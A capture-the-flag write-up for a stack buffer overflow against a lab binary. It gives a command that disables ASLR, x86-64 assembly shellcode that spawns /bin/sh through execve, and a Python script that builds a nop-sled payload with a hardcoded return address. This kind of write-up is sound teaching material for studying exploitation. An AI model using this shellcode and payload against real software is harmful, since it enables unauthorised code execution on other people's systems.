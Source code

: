
#Configuration

Need to disable ASLR, stack protection, and canaries.

Disable ASLR with: `echo 0 > /proc/sys/kernel/randomize_va_space`


##Writeup

We write assembly shellcode that will call execve into the stack and then overwrite the return address of the function to point back to this shellcode on the stack.

To do this, we write a large nop sled and then the shellcode followed by filler and then the return address. We need to use the nop sled because we might not know the exact return address. Since ASLR is disables, it won't be too large a disparity so some trial and error should let us pwn the program.

The shellcode was crafter as such:

```asm
xor     rdx, rdx                ;Clear rax register
mov     qword rbx, '//bin/sh'   ;Move /bin//sh to rbx
shr     rbx, 0x8                ;Add null byte to end of string
push    rbx                     ;Push /bin//sh to stack
mov     rdi, rsp                ;Load address of /bin//sh to rdi
push    rdx                     ;Push null byte to stack to end argv array
sub     rsp, $8
mov     [rsp], rdi              ;Push address of /bin//sh to stack (push command was crashing)
mov     rsi, rsp                ;Load address of address of /bin//sh to rsi
mov     al, 0x3b                ;syscall number of execve is 59
syscall                         ;Call execve
```

and the python code to craft the input is here

```python
shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x48\x83\xec\x08\x48\x89\x3c\x24\x48\x89\xe6\xb0\x3b\x0f\x05"
ret_adr = "\xd5\xe8\xff\xff\xff\x7f\x00\x00"

nop_len = 500
payload = "\x90"*nop_len + shellcode + "a"*(0x400 - len(shellcode) - nop_len) + "b"*8 + ret_adr

print payload
```


**flag:** treeCTF{...}
